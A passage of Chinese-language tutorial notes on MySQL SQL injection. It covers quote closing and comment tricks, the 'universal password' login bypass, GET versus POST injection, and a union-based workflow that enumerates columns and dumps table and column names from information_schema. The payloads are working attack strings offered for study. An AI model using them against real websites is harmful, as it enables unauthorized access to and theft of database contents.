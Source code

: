 我们发现在这里url显示id=1但实际上id='1',多了引号，如果还像上面那样用and 1=2判断就会变成id='1 and 1=2'，即输入的内容会被包括在引号里。我们想到在1后面加个引号，再加上and 1=2，此时会变成

![20220411234743](https://cdn.jsdelivr.net/gh/zhangsx19/PicBed/images_for_blogs20220411234743.png)

此时只需注释掉最后一个引号即可。
mysql的两种注释：
```
-- abc   #abc不会被识别，注意--后有空格，但打空格会被自动取消掉，可以打空格的unicode编码%20或+
#abc    #注意不能打#,要打#的unicode编码%23
```
## 4.get注入与post注入
数据包的第一行的第一个是请求方式`GET`或`POST`

![20220413235401](https://cdn.jsdelivr.net/gh/zhangsx19/PicBed/images_for_blogs20220413235401.png)

以上在URL中传递参数为`GET注入`在网址需要转换成unicode；如果是在网页的框内，为`POST注入`,应该不转换。万能密码：
猜测源代码中有’要形成闭合，#意味注释掉后续代码，因为1=1为真，所以代码执行后为真，通过

![20220412000850](https://cdn.jsdelivr.net/gh/zhangsx19/PicBed/images_for_blogs20220412000850.png)

```
数字型判断：and 1=1 / and 1=2
字符型判断：' and 1=1 -- '
搜索型判断：and %' -- q		 id='%abc%'
```
怎么知道是什么类型的？暴力枚举--有类似万能密码字典的东西。

# 二、注入分类
## 1.显错注入/联合注入（Mysql数据库）的基本流程
```
    1.判断网站是否存在数据库注入漏洞
		and 1=1  网页有内容
		and 1=2  网页没有内容  ==> 这个网站存在数据库注入漏洞。
	
	原因：我们输入的数据库语句被网站代入到他的数据库中执行了。
    
	2.判断字段（列）数， order by  ，作用是排序。 
		order by 1 --> 页面有内容，说明网站的那个表有1列
		order by 2 --> 页面有内容，说明网站的那个表有2列
		order by 3 --> 页面没有内容，说明网站的那个表没有3列，--> 只有2列。

	3.查看回显点： union ，作用是联合查询，能够同时执行两条数据库查询语句。
    注意：必须保证两条数据库查询语句查询的表的列数一致。这也是步骤2的必要性。

	回显点的作用：在该处输入的任何数据库语句，都会被直接执行，并且显示到页面上！如修改select 1,2中的2，页面内容发生变化，则第二列为回显点。

	4.查询相关内容
    and 1=2 union select 1,2
    and 1=2 union select 1,table_name from information_schema.tables where table_schema=database() limit 0,1 
    and 1=2 union select 1,column_name from information_schema.columns where table_schema=database() and table_name='zdafiilhhc' limit 0,1 
    and 1=2 union select 1,列名 from 表名 limit 0,1
```
用到的函数：
```
version() ，# 作用 ：查询版本 ， 如5.5.53
database() # 作用：查询当前数据库的库名 
```
